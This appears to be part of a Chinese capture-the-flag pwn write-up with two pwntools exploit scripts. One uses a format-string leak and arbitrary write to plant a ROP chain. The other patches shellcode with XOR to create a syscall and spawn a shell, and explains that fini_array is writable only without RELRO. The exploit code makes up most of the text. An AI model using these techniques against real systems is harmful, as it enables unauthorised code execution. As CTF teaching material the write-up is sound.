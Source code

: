 ```py
        s.sendafter(b"more?\n",b"n")
    else:
        s.sendafter(b"more?\n",b"y")
    if flag:
        return dat


if __name__=="__main__":
    dat=send_fmt(b"%40$p.%36$p.%30$p.",flag=True).split(b".")
    rbp=eval(dat[0])-0xf0+8
    libc.address=eval(dat[1])-(0x7ffff7fba2e8-0x7ffff7dc9000)
    elf.address=eval(dat[2])-0x40
    success(hex(rbp))
    success(hex(libc.address))
    success(hex(elf.address))
    addr_l=[]
    for i in range(6):
        addr_l.append(rbp+i*8)
    content_l=[libc.address+0x0000000000023b63,0,0,0,0,libc.address+0xe3afe]
    for i in range(len(addr_l)-1):
        send_fmt(fmt64(8,8,addr_l[i],content_l[i]))
    send_fmt(fmt64(8,8,addr_l[5],content_l[5]),exit_flag=True)
    s.interactive()
```

## shellcode, but without syscall.

主要提一下`fini_array`，程序退出时执行存在其中的函数指针。

还有让大伙看一眼静态编译出来的程序长什么样子（

但我在出题测试的时候发现只有`NO RELRO`情况下`fini array`才可写，如此一来意义也就不大了。

shellcode部分的话，`xor qword ptr [rip], #imm`造syscall，或者找个libc相关地址算一下`syscall;ret`的gadget然后`call`过去都行。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
def pwns():
    #s=process("../dist/pwns")
    #pause()
    s=remote("192.168.3.253",53003)
    s.sendlineafter(b"length:\n",b"32")
    shellcodes="""
    xor rax,rax
    mov esi,0x20230000
    xor dword ptr [rip],0x9f
    nop
    """
    s.sendafter(b"code:\n",asm(shellcodes)+b"\x05")
    s.sendlineafter(b"Where?\n",b"4DB038")
    s.sendafter(b"What?\n",p64(0x20230000))
    s.send(b"\x90"*0x20+asm(shellcraft.sh()))
    s.interactive()

if __name__=="__main__":
    pwns()
```
